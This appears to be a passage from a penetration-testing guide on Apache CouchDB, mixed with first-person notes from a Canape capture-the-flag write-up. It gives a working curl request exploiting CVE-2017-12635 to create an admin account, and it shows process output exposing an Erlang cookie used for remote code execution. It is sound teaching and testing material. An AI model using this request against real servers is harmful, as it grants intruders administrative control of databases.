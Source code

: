 ## CouchDB Privilege Escalation [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635)

Thanks to the differences between Erlang and JavaScript JSON parsers you could **create an admin user** with credentials `hacktricks:hacktricks` with the following request:

```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```

[**More information about this vuln here**](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

## CouchDB RCE

### Erlang Cookie

In the CouchDB docs, in the [cluster set-up section](http://docs.couchdb.org/en/stable/cluster/setup.html#cluster-setup), it talks about the different ports used by CouchDB:

> CouchDB in cluster mode uses the port `5984` just as standalone, but it also uses `5986` for node-local APIs.
>
> Erlang uses TCP port `4369` (EPMD) to find other nodes, so all servers must be able to speak to each other on this port. In an Erlang Cluster, all nodes are connected to all other nodes. A mesh.

And then there’s an interesting warning:

![1536931232858](https://0xdf.gitlab.io/img/1536931232858.png)

If we look in the process list, we can see that cookie, “monster”:

```
www-data@canape:/$ ps aux | grep couchdb
root        744  0.0  0.0   4240   640 ?        Ss   Sep13   0:00 runsv couchdb
root        811  0.0  0.0   4384   800 ?        S    Sep13   0:00 svlogd -tt /var/log/couchdb
homer       815  0.4  3.4 649348 34524 ?        Sl   Sep13   5:33 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/b
```

**You can**[ **read this section to learn how to abuse Erlangs cookies to obtain RCE**](4369-pentesting-erlang-port-mapper-daemon-epmd.md#erlang-cookie-rce)**.**\
Also, you can read some **Canape HTB machine writeup** [**like this one**](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution) to see and **practice** how to **exploit this vuln**.

### **Successful CVE-2018-8007 with local.ini write permissions**

In writing this post, I found a new CVE had been released for CouchDB from mdsec, [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/). It also requires writes to the `local.ini` file, so it isn’t a useful option for Canape. But since I’ve already made it writable as root, let’s see if we can get it to work.
